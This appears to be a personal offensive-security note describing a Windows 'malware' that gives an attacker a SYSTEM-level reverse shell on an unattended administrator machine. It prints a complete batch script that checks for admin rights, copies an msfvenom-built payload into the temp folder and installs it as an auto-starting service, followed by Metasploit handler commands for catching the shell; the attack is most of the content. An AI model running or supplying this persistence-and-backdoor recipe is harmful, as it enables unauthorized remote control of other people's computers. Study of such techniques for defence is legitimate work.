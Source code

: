 # Reverse shell

In this section, I aim to experiment and provide a simple example of a "malware" that can be executed as an **Administrator** account on a target's Windows machine. For simplicity, I assume the weakest security scenario:

a. User is in the **Administrators** group on the machine

b. User left the machine unattended while being logged in

c. There is no anti-virus solutions (besides Windows defender) running on the machine

&#x20;The "malware" will simply provide a remote shell as the **SYSTEM** user.

> Note: the setup and techniques used in this example is EXTREMELY minimal, and OPSEC is not taken into account.

### Setup

The following outlines the root directory of the "malware" folder&#x20;

1. `rvshell.exe`

* Generated with msfvenom: meterpreter or reverse shell

2. `shell.cmd`

* To be executed as administrators&#x20;
  * GUI: Right-click -> "Run as administrator"

{% code title="shell.cmd" overflow="wrap" %}
```batch
REM Executes a C# script that returns a boolean value that indicates if the current user is in the "Adminstrators" group, before storing the value in the "ISADMIN" env variable
for /f "delims=" %%a in ('powershell.exe -NoProfile -Command "([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltinRole]::Administrator)"') do set ISADMIN=%%a

REM Echo the value of the "ISADMIN" env variable
echo ISADMIN=%ISADMIN%

REM User is not an administrator: EXIT
if /i "%ISADMIN%"!="True" (
    echo User is NOT an administrator
    exit
    )

REM User is an administrator: continue next step
set RVSHELL_EXE=%TEMP%\rvshell.exe

REM Copy reverse shell payload to a temp folder
copy /y rvshell.exe %RVSHELL_EXE%

REM Create and start a service with sc.exe

sc.exe create "rvshell" binPath= "%RVSHELL_EXE%" start= auto
sc.exe start "rvshell"

REM EXIT current prompt
exit
```
{% endcode %}

a. ...

b. `[Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltinRole]::Administrator)`&#x20;

* A C# one-liner which output a boolean value that indicates if the current user is in the "**Administrators**" group

#### Catch the shell

{% code title="Attacker machine" overflow="wrap" %}
```sh
$ msfconsole
msf6> set exploit/multi/handler

# set payload accordingly
msf6> set payload windows/x64/meterpreter/reverse_tcp
msf6> set payload windows/x64/powershell_reverse_tcp

msf6> set lhost <lhsot>
msf6> set lport <lport>
msf6> run
```
{% endcode %}

### Resources

1. **Powershell.exe**

{% embed url="https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_powershell_exe?view=powershell-5.1" %}

2. `set` command

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/set_1" %}



